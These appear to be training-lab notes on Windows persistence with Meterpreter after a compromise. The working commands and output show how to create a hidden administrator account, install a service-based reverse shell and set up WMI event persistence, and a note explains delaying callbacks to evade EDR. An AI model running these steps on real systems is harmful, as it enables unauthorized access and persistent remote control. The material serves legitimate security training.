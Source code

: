 #### Create users

```
meterpreter > execute -f "net user /add assetmgtacct Att@ckerPassw"
Process 6892 created.
meterpreter > execute -f "net localgroup administrators /add assetmgtacct"
Process 7192 created.
meterpreter > execute -i -f "net user"
Process 3436 created.
Channel 3 created.
User accounts for \\WS-F43G01
----------------------------------------------------------------------------
Administrator assetmgtacct
DefaultAccount WDAGUtilityAccount
Guest Sec504
The command completed with one or more errors.
```

> `-f`: force, not interactive

> `-i`: interactive, displaying output results

#### Services

```
meterpreter > background
[*] Backgrounding session 1...
msf6 > use exploit/windows/local/persistence_service
msf6 exploit(windows/local/persistence_service) > set session 1
msf6 exploit(windows/local/persistence_service) > set lport 4445
msf6 exploit(windows/local/persistence_service) > set lhost 10.10.75.1
msf6 exploit(windows/local/persistence_service) > exploit
[*] Started reverse TCP handler on 10.10.75.1:4445  <------------ Meterpreter default exploit: reverse shell
[*] Running module against SEC504STUDENT
[+] Meterpreter service exe written to C:\WINDOWS\TEMP\LAGYmO.exe
[*] Creating service EPjXQ
[*] Meterpreter session 2 opened (10.10.75.1:4445 -> 10.10.0.1:1546) at
2021-06-15 16:41:10
```

#### WMI Persistence

- WMI (Windows Management Instrumentation) Event Subscription is like a task scheduler with more guranularity and configuration
- By default Meterpreter sets persistence which would be triggered on failed logon with specified name, with specified delay (Delaying is useful for avoiding detection since EDR uses emproral proximity for multiple events connections)

```
meterpreter > background
[*] Backgrounding session 2...
msf6 > use exploit/windows/local/wmi_persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi_persistence) > set session 2
msf6 exploit(windows/local/wmi_persistence) > set lhost eth0
msf6 exploit(windows/local/wmi_persistence) > set username_trigger josh
msf6 exploit(windows/local/wmi_persistence) > set callback_interval 1000
msf6 exploit(windows/local/wmi_persistence) > exploit
[*] Installing Persistence...
[+] Persistence installed! Call a shell using "smbclient \\\\10.10.0.1\\C$ -U josh <arbitrary password>"
[*] Clean up Meterpreter RC file:
/home/sec504/.msf4/logs/wmi_persistence/10.10.0.1_20210622.1735/10.10.0.1_20210622.1735.rc
```
